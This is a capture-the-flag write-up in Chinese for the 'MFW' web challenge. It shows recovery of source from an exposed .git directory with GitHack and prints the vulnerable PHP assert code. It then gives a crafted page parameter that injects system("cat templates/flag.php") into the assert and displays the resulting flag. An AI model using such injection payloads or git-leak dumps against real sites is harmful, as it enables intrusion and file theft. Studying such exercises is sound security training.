

#### MFW
打开题目，观察网页源码，发现页面可以传入page参数。
```html
<!--仅列出了部分源码位置的源码-->

<div id="navbar" class="collapse navbar-collapse">
    <ul class="nav navbar-nav">
        <li class="active"><a href="?page=home">Home</a></li>
        <li ><a href="?page=about">About</a></li>
        <li ><a href="?page=contact">Contact</a></li>
        <!--<li ><a href="?page=flag">My secrets</a></li> -->
    </ul>
</div>

```
传入的值为flag时并不起作用，于是继续观察其他页面。


建站借助了git，怀疑可能存在git泄露。

访问http://111.198.29.45:45709/.git/，果然可以访问。

借助githack工具（目前只支持python2）得到了部分源码。
```
githack用法: python GitHack.py httpxxxxxxx/.git
```
```php
<?php
#index.php部分源码
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

assert("strpos('$file', '..') === false")
// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
templates文件夹中包含about.php，flag.php等内容，但flag.php里的是空的。可能是因为还原的源码版本比较老（当然是出题人故意的）。

为了能查看flag.php，可能需要借助一些函数，比如文件读取，命令执行等。接着分析index.php寻找可以利用的地方。
该文件使用了断言函数assert，可以起到将其中的内容作为命令进行执行的作用。

这里可以构造一个特殊的page参数。
```txt
?page=about.php','..')===false and system("cat templates/flag.php")and strpos('666
```

得到flag
```html
<?php $FLAG="cyberpeace{4e2e382383a12e2c30bb9e8efa43b99f}"; ?>
That file doesn't exist!
<!--不太理解PHP代码为什么在浏览器中不显示，被注释了，而查看源码又没有了注释符号
可能 是为了安全？？？
-->
```